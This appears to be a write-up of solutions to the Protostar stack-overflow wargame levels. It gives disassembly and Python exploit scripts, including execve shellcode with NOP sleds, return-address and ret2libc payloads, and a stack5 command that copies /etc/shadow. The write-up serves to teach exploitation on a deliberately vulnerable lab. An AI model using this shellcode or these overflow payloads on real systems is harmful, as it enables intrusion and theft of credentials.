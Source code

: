 # Protostar

## Stack0

The source code shows that there is a significant stack overflow. When the program recvievs input from the user, gets() will not check the length of the buffer.
The mission is that overwrite the variable named modified, the address of which is just 64bytes behind the address of the variable named buffer.

```ASM
 080483f4 <main>:
 80483f4:       55                      push   %ebp
 80483f5:       89 e5                   mov    %esp,%ebp
 80483f7:       83 e4 f0                and    $0xfffffff0,%esp
 80483fa:       83 ec 60                sub    $0x60,%esp
 80483fd:       c7 44 24 5c 00 00 00    movl   $0x0,0x5c(%esp)
 8048404:       00
 8048405:       8d 44 24 1c             lea    0x1c(%esp),%eax
 8048409:       89 04 24                mov    %eax,(%esp)
 804840c:       e8 fb fe ff ff          call   804830c <gets@plt>
 8048411:       8b 44 24 5c             mov    0x5c(%esp),%eax
 8048415:       85 c0                   test   %eax,%eax
 8048417:       74 0e                   je     8048427 <main+0x33>
 8048419:       c7 04 24 00 85 04 08    movl   $0x8048500,(%esp)
 8048420:       e8 07 ff ff ff          call   804832c <puts@plt>
 8048425:       eb 0c                   jmp    8048433 <main+0x3f>
 8048427:       c7 04 24 29 85 04 08    movl   $0x8048529,(%esp)
 804842e:       e8 f9 fe ff ff          call   804832c <puts@plt>
 8048433:       c9                      leave
 8048434:       c3                      ret

```

We could calculate the offset will be 0x40 = 64, since the 
&buffer = 0x1c(%esp);
&modified = 0x5c(%esp);

The exploit python code is 

```python
#!/usr/bin/env python

SH='A'*64+'XXXX'
print(SH)
```

## Stack1

The exploit python code could be slightly modified for stack1

```python
#!/usr/bin/env python

SH='A'*64+'dcba'
print(SH)
```

## Stack2

The exploit python code is:

```python
#!/usr/bin/env python
import sys

SH='A'*64+'\x0a\x0d\x0a\x0d'
sys.stdout.write(SH)
```

And the stack overflow could be constructed as :

```shell
 env GREENIE="`python hack.py`" /opt/protostar/bin/stack2
```

## Stack3

The disasmble code is :

```asm
08048438 <main>:
 8048438:       55                      push   %ebp
 8048439:       89 e5                   mov    %esp,%ebp
 804843b:       83 e4 f0                and    $0xfffffff0,%esp
 804843e:       83 ec 60                sub    $0x60,%esp
 8048441:       c7 44 24 5c 00 00 00    movl   $0x0,0x5c(%esp)
 8048448:       00
 8048449:       8d 44 24 1c             lea    0x1c(%esp),%eax
 804844d:       89 04 24                mov    %eax,(%esp)
 8048450:       e8 db fe ff ff          call   8048330 <gets@plt>
 8048455:       83 7c 24 5c 00          cmpl   $0x0,0x5c(%esp)
 804845a:       74 1b                   je     8048477 <main+0x3f>
 804845c:       b8 60 85 04 08          mov    $0x8048560,%eax
 8048461:       8b 54 24 5c             mov    0x5c(%esp),%edx
 8048465:       89 54 24 04             mov    %edx,0x4(%esp)
 8048469:       89 04 24                mov    %eax,(%esp)
 804846c:       e8 df fe ff ff          call   8048350 <printf@plt>
 8048471:       8b 44 24 5c             mov    0x5c(%esp),%eax
 8048475:       ff d0                   call   *%eax
 8048477:       c9                      leave
 8048478:       c3                      ret
```
I plan to overwrite the content of the pointor named fp with the value of win(), the address of which is 0x08048424.

The following python code will exploit the program at the level.

```python
#!/usr/bin/env python
import sys

SH='A'*64+'\x24\x84\x04\x08'
sys.stdout.write(SH)
```

## stack4

I used `strace -i` to find out which offset is the return address, then I constructed the attack vector.

```python
#!/usr/bin/env python
import sys
padding='BBBBCCCCDDDD'
ret_addr='\xf4\x83\x04\x08'

SH='A'*64+padding+ret_addr

sys.stdout.write(SH)
```

## stack5

In this level, I found the value of esp and ebp maybe different between normal  execution and gdb mode. Also /bin/sh will read from stdin, but which was redirected by command. And strace is a good tool to debug.

`python stack5.py | /opt/protostar/bin/stack5`

```python
#!/usr/bin/env python

import sys

SHELL_CODE = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
NOP= "\x90"

ret_addr = "\xa0\xf7\xff\xbf" # 0xbffff7a0
old_ebp = "\x48\xf8\xff\xbf" #0xbffff848

buff_size = 64

# NOP shell_code NOP old_ebp ret_addr
SH = NOP*32 + SHELL_CODE
SH = SH + NOP*(buff_size-len(SH))
# and    $0xfffffff0,%esp
SH = SH + NOP*8 + old_ebp + ret_addr
# add return char for gets()
SH = SH + "\n"

sys.stdout.write(SH)
sys.stdout.flush()
#write cmd
cmd="id; cat /etc/shadow > shadow.txt"
sys.stdout.write(cmd+"\n")
sys.stdout.flush()

```

# stack6

Because the buffer of stack starts with 0xbfXXXXXX, it will be unable to put the shellcode on the stack.

The following code shows how return into libc works. Please be careful about the structure of the payload.
buffer | old_ebp | system_addr | ret_addr_after_system | parameters

```python
#!/usr/bin/env python

import sys

NOP= "\x90"

ret_addr = "\xb0\xff\xec\xb7" # 0xb7ecffb0 system
old_ebp = "\xff\xff\xff\xbf"  # 0xbfffffff
para = "\x8c\xf7\xff\xbf" # 0xbffff78c
buff_size = 0x4c
cmd="/usr/bin/id; echo "
exit_addr = "\xc0\x60\xec\xb7" # 0xb7ec60c0 exit
exit_para = "\xff\xff\xff\xff"
# cmd padding  old_ebp ret_addr
SH = cmd
SH = SH + 'A'*(buff_size-len(SH))
SH = SH + old_ebp + ret_addr + exit_addr + para
# add return char for gets()
SH = SH + "\n"

sys.stdout.write(SH)
sys.stdout.flush()
```

The second point is that, this code only check the return address at the first time. However, we can control the return address, so that we just pick a function on the return address. When this function returns, it will continue pop the next level return address, which will not be checked.

# stack 7

I chose to use the instruction, which is `jmp eax`, as the return address.
And I have updated the shellcode, because edx should be set as 0.

```python
#!/usr/bin/env python

import sys

SHELL_CODE = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"
NOP= "\x90"

ret_addr = "\xeb\x85\x04\x08" # 0x080485eb jmp eax
old_ebp = "\xff\xff\xff\xbf"  # 0xbfffffff

buff_size = 0x4c

# NOP shell_code NOP old_ebp ret_addr
SH = NOP*4 + SHELL_CODE
SH = SH + NOP*(buff_size-len(SH))
SH = SH + old_ebp + ret_addr
SH = SH + "\n"
sys.stdout.write(SH)
sys.stdout.flush()

#write cmd
cmd="/usr/bin/id"
sys.stdout.write(cmd+"\n")
sys.stdout.flush()
```